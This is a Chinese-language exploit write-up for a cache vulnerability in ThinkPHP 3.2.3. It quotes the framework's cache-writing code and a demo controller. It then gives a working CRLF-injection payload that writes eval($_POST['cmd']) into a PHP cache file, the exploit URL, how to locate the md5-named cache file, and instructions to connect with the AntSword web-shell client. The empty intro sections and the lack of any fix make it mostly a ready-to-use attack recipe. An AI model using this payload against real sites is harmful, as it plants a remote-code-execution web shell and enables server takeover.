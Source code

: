 Thinkphp 3.2.3 缓存漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 3.2.3

三、复现过程
------------

### 漏洞分析

-   直接跟进到`/Library/Think/Cache/File.class.php`文件，看到set方法：

```{=html}
<!-- -->
```
-   /**
             * 写入缓存
             * @access public
             * @param string $name 缓存变量名
             * @param mixed $value  存储数据
             * @param int $expire  有效时间 0为永久
             * @return boolean
             */
            public function set($name,$value,$expire=null) {
                N('cache_write',1);
                if(is_null($expire)) {
                    $expire =  $this->options['expire'];
                }
                $filename   =   $this->filename($name);
                $data   =   serialize($value);
                if( C('DATA_CACHE_COMPRESS') && function_exists('gzcompress')) {
                    //数据压缩
                    $data   =   gzcompress($data,3);
                }
                if(C('DATA_CACHE_CHECK')) {//开启数据校验
                    $check  =  md5($data);
                }else {
                    $check  =  '';
                }
                $data    = "<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>";
                //data参数经过序列化，直接被写到文件内。

                $result  =   file_put_contents($filename,$data);
                if($result) {
                    if($this->options['length']>0) {
                        // 记录缓存队列
                        $this->queue($name);
                    }
                    clearstatcache();
                    return true;
                }else {
                    return false;
                }
            }

```{=html}
<!-- -->
```
-   写一个调用缓存函数的的方法，运行一下。看看写进去什么

```{=html}
<!-- -->
```
-   <?php
        namespace Home\Controller;
        use Think\Controller;
        class IndexController extends Controller {

            public function index(){
                $a=I('post.a3');
                S('name',$a);
            }
        }

```{=html}
<!-- -->
```
-   在set方法下断点，访问
    `http://www.0-sec.org/index.php/Home/Index/index.html`
    ，post数据：`a3=aaaa`

![](./resource/Thinkphp3.2.3缓存漏洞/media/rId25.png)

可以看到\$data参数经过序列化，直接写入php后缀的文件。F9运行可以看到，在`Application/Runtime/Temp/`文件夹下生成了php文件。

![](./resource/Thinkphp3.2.3缓存漏洞/media/rId26.png)

-   写入到文件被行注释了。

-   `$data`参数未过滤`%0d%0a`可以用换行来绕过行注释，尝试post数据：

```{=html}
<!-- -->
```
-   `a3=%0d%0aeval($_POST['cmd']);%0d%0a//`

![](./resource/Thinkphp3.2.3缓存漏洞/media/rId27.png)

-   之后用蚁剑连接成功

![](./resource/Thinkphp3.2.3缓存漏洞/media/rId28.png)

### 总结

### Thinkphp3.2.3

1.  漏洞文件位置(一般审计得出)

-   `http://www.0-sec.org/index.php/Home/Index/get?id=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件为缓存名的md5值，这里采用md5（name）=b068931cc450442b63f5b3d276ea4297

-   `http://www.0-sec.org/Application/Runtime/Temp/b068931cc450442b63f5b3d276ea4297.php`

3.  之后蚁剑连接。

参考链接
--------

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10缓存漏洞/)
